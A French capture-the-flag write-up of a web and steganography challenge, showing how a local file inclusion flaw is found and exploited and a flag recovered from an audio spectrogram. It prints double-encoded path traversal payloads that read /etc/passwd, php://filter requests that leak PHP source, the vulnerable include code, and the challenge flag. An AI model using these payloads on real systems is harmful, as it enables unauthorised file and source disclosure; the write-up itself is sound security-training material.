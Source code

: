 # CTF Midnight Flag : INFEKTION

## Web / Stéganographie

### Challenge : To be private or not to be private 

**Points :** 500

***

L'énoncé du challenge nous donne le site suivant : `https://cloud.midnightflag.fr/index.php`

En manipulant l'URL, je m'aperçois rapidement qu'une faille LFI est exploitable.
Je commence donc à injecter un payload avec double encodage afin de récupérer le contenu du fichier **/etc/passwd** :
`https://cloud.midnightflag.fr/index.php?categorie=..%252f..%252f..%252fetc%252fpasswd`

J'ai bien le contenu du fichier en retour mais je ne vois aucun utilisateur ou service exploitable :

![cloud1](https://user-images.githubusercontent.com/49941629/165366730-29a98123-13f2-47a2-ad28-a2bf67c8165f.png)

Je décide donc de télécharger le contenu du fichier index.php grâce au wrapper PHP :
`https://cloud.midnightflag.fr/index.php?categorie=php:%252F%252Ffilter%252Fconvert.base64-encode%252Fresource=index.php`

Avec cette requête, je récupère le contenu du fichier index.php en base64 directement sur la page web.

Après décodage, je vois le code PHP suivant correspondant aux filtres LFI appliqués (bypass de la fonction via double encodage) :
```php
    <?php
    function lfi_filter($value)
    {
        $omit_words = array('..', '../', '/');
        rsort($omit_words);
        $new_string = str_replace($omit_words, '', $value);
        return $new_string;
    }
    
    if (isset($_GET["categorie"])) {
      $categorie = lfi_filter($_GET["categorie"]);
      include urldecode($categorie);
    }else {
      include 'home.php';
    }
    ?>
```
A partir de cet instant, je cherche un petit moment avant de poursuivre le challenge car le code PHP récupéré nous donne aucune information supplémentaire.
Le fuzzing n'étant pas autorisé sur ce challenge, il est venu le temps du **#guessing** !

En regardant le titre du challenge et en adéquation avec la structure du site, après plusieurs tentatives je tente de joindre la page private.php : `https://cloud.midnightflag.fr/index.php?categorie=private.php` et j'ai bien un retour !

Je récupère donc le code source de cette page avec le même payload que précédemment :
`https://cloud.midnightflag.fr/index.php?categorie=php:%252F%252Ffilter%252Fconvert.base64-encode%252Fresource=private.php`

J'obtiens le code source suivant avec un commentaire ASCII intéressant :
```html
<section>
      <td><img width="50%" class="center" src="categorie\private\Why-So-Sad-Funny-Clown-Face-Picture.jpg" alt="personal_attack.jpg"></td>
      <!--don't leak (\x70\x65\x72\x73\x6F\x6E\x61\x6C) -->
</section>
```

Après conversion, je récupère la valeur suivante : **personal**

Je suppose donc que le site possède une catégorie personal, je me rends donc sur l'URL `https://cloud.midnightflag.fr/index.php?categorie=personal.php` qui contient un enregistrement audio au format wav.

Après téléchargement de l'enregistrement audio, je l'ouvre avec le logiciel Audacity afin d'analyser le contenu.

L'audio généré par l'enregistrement me laisse penser qu'une information est présente dans le spectrogramme :

https://user-images.githubusercontent.com/49941629/165365721-bf3fb966-fcdc-4e0e-a0d3-49bad9cf47e8.mp4

Après inversion de la piste audio et analyse du spectre, je récupère l'information suivante :

![cloud2](https://user-images.githubusercontent.com/49941629/165366030-8d6061f3-34d3-4f9b-8bfd-6a262bef336e.png)

Flag : MCTF{H1d3_Y0uR_S3cRe7s}

Merci au créateur du challenge.
